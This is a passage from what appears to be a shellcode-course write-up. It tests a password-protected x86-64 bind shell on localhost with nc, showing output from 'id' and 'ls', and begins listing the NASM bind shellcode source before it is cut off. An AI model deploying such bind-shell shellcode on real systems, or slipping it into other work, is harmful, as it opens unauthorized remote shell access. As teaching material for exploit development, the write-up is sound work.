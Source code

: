 We test the Bind Shell by executing in one terminal window the `bind` executable and in another we connect with `nc` on port `4444`, provide the passcode: `Password` and execute the commands `id` and `ls`.

1<sup>st</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/1_Shell_bind_tcp$ ./bind
```

2<sup>nd</sup> window:

```shell
geobour98@slae64-dev:~$ nc localhost 4444
Password
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
bind
bind-c
bind-c.c
bind-shellcode-course
bind-shellcode-course.nasm
bind-shellcode-course.o
bind.nasm
bind.o
compile.sh
reverse.py
exit
geobour98@slae64-dev:~$
```

Now we can check that with a wrong passcode the program is terminated. We execute again `bind` and wait for connections.

We connect again with `nc` and provide the wrong passcode `WrongPassword`. The program is terminated.

```shell
geobour98@slae64-dev:~$ nc localhost 4444
WrongPassword
geobour98@slae64-dev:~$
```

## Bind Shellcode {#bind-shellcode} 

The initial version of the Bind Shellcode of the course, which contained nullbytes, is the following:

```nasm
global _start

_start:

	; sock = socket(AF_INET, SOCK_STREAM, 0)
	; AF_INET = 2
	; SOCK_STREAM = 1
	; syscall number 41

	mov rax, 41
	mov rdi, 2
	mov rsi, 1
	mov rdx, 0
	syscall

	; copy socket descriptor to rdi for future use
	mov rdi, rax
```